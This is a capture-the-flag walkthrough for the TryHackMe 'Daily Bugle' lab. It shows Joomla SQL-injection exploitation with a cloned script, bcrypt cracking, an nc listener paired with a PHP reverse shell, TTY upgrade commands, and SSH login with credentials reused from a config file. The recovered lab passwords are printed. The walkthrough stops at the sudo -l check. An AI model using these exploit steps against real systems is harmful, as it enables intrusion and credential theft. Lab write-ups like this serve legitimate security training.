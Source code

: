 # Daily Bugle

**Room Link:** [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)



### **Deploy**

**Access the web server, who robbed the bank?**

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Obtain user and root

```
nmap -A 10.10.116.159
```

![](<../../.gitbook/assets/image (18).png>)



**Python Script**

```
git clone https://github.com/stefanlucas/Exploit-Joomla.git 
cd Exploit-Joomla/ 
python3 joomblah.py http://10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

```
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

### Cracking the hash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

We can  now login to Joomla with the credentials we have found

```
Username: jonah
Password: spiderman123
```

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

All I did was follow this tutorial to get a reverse shell.&#x20;

**Tutorial:** [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

**Kali**

```
nc -lvp 1234
```

**Browser**

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Used this PHP reverse shell, just needed to change the IP to my own.

**PHP Reverse Shell:** [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

Found a password in the configuration file. The password worked for the user jjameson which was found in the home directory.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
ssh jjameson@10.10.116.159
Password: nv5uz9r3ZEDzVjNu
```



jjamerson is able to run yum with no password as sudo

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>



